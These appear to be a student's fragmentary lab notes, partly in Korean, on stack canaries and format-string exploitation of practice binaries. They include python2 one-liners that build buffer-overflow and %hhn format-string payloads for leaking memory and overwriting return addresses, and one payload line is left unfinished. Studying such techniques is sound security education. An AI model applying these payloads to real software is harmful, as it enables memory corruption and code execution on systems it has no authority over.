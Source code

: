 Formats11

Canary

vulfoo has canary

argc 갯수
argv 어레이로된 parameter

fread

부모 프로세스- 아들 프로세스
Format string

Format 11_32

**카나리 찾는법**
1. Printf 에서 %x.으로 메모리 주소 읽기
	objdump -d - 디스어셈블
	

%eax,-0x2c(%ebp) 
ebp-20

0x8049276

python2 -c "print 'a'*20 + '\x00\x53\x5c\x59' + 'a'*12 + 

카나리를 잘 덮었어야되

SHELL CODE로 리턴하기 >


tmpbuffer
	RET
		%x %x.... %n
			Override = 4 bytes
				1 byte = %hhn Higer 4 bytes are same just lower 4 bytes
			$hhn$nx$hhn
			![[Screenshot 2024-10-31 at 3.37.55 PM.png]]
				python2 -c "print '\x8c\xd6\xff\xff'+'\x8d\xd6\xff\xff' + '%08x.'*8 + '%hhhn%hhn'" | ./formatstring_formats5_3
				8 Bytes+ 9bytes
				=62bytes
		4,4,4,10,58x

1. 하나의 정수는 4바이트
2. 하나의 HEX는 1 바이트
3. python2 -c "print '\x8c\xd6\xff\xff'+'aaaa'+'\x8d\xd6\xff\xff' + '%09x.'*5 + '%248x' +'%hhn%92d%hhn'" | ./formatstring_formats5_32 


formats9
3 global variables